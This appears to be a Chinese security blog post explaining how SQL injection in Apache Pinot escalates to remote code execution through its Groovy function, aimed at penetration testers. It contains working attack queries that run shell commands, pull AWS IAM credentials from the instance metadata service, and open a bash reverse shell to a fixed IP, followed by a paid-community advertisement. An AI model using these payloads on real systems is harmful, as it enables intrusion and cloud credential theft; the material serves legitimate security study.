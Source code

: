 #  Apache Pinot SQL注入与远程代码执行漏洞分析   
umbrella枇杷哥  黑伞安全   2024-04-16 18:02  
  
## 引言  
  
聊一下Apache Pinot数据库平台的安全漏洞，特别是SQL注入（SQLi）和远程代码执行（RCE）的问题。Apache Pinot是一个实时分布式OLAP数据存储系统，专为提供超低延迟的分析而设计。本文将指导渗透测试人员如何将他们对传统数据库系统的了解应用于Apache Pinot，并展示如何将SQL注入漏洞升级为远程代码执行。  
## Apache Pinot简介  
  
Apache Pinot是为即时查询流式数据、支持多用户同时执行复杂查询、快速聚合或过滤大量数据的场景而设计的。例如，LinkedIn使用Pinot为其“谁查看了我的个人资料”等特性提供支持，而外卖平台UberEats则为餐厅提供了一个由Pinot驱动的仪表板，用于分析客户满意度、热门菜单项、销售和服务质量问题。  
## 架构细节  
  
Pinot使用Java编写，数据表被分割成多个片段（Segments），通常基于时间戳进行分割，并可存储在不同的位置。Pinot集群由多个组件构成，包括控制器（Controllers）、服务器（Servers）和代理（Brokers）。服务器存储数据片段，代理负责接收客户端的查询请求并将其转发给服务器，控制器负责维护集群元数据和管理其他组件。  
## 测试环境搭建  
  
使用Minikube快速搭建多节点环境的方法如下：  
1. 通过Kubernetes快速启动Minikube。  
  
1. 安装Pinot Helm图表。  
  
1. 通过Kafka进行数据摄取。  
  
1. 暴露控制器端口以访问查询编辑器和集群管理UI。  
  
## SQL语法与注入基础  
  
Pinot的SQL语法基于Apache Calcite，但不支持Calcite参考中的许多特性。以下是一些有用的语言特性：  
```
```  
```
-- 字符串处理
SELECT "someColumn", 'a ''string'' with quotes', CONCAT('abc','efg','d') FROM myTable;

-- 子字符串
SELECT SUBSTR('abcdef', -3, -1) FROM ignoreMe -- 'def'

-- 过滤器
SELECT * FROM airlineStatsAvro WHERE 0 = Year - Year AND ArrTimeBlk != 'blahblah-bc'
```  
```
```  
  
Pinot默认允许任何能够查询数据库的用户在服务器上执行代码，这是一个巨大的安全漏洞。通过Groovy脚本，攻击者可以实现RCE，获取服务器的root权限。以下是RCE的示例查询：  
```
-- 获取当前用户信息
SELECT * FROM myTable WHERE groovy('{"returnType":"INT","isSingleValue":true}', 'println "whoami".execute().text; return 1') = 1 limit 5;

-- 窃取AWS临时IAM凭据
SELECT * FROM myTable WHERE groovy('{"returnType":"INT","isSingleValue":true}', 'def aws = "169.254.169.254/latest/meta-data/iam/security-credentials/"; def collab = "xyz.burpcollaborator.net/"; def role = "curl -s ${aws}".execute().text.split("\n")[0].trim(); def creds = "curl -s ${aws}${role}".execute().text;') = 1;

-- 创建反向Shell
SELECT * FROM myTable WHERE groovy('{"returnType":"INT","isSingleValue":true}', '["bash", "-c", "bash -i >& /dev/tcp/192.168.0.4/443 0>&1"].execute(); return 1') = 1;
```  
```
```  
  
  
参考：https://blog.doyensec.com/2022/06/09/apache-pinot-sqli-rce.html  
  
https://docs.pinot.apache.org/users/user-guide-query/scalar-functions#groovy-scripts  
  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGoa1Yh6UHSvgToDQcqx7RLLnJIWwnw3z5JvaexDaclyMwMial9BMOBqkJESSKALIQHIL6T2xTV9GKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  

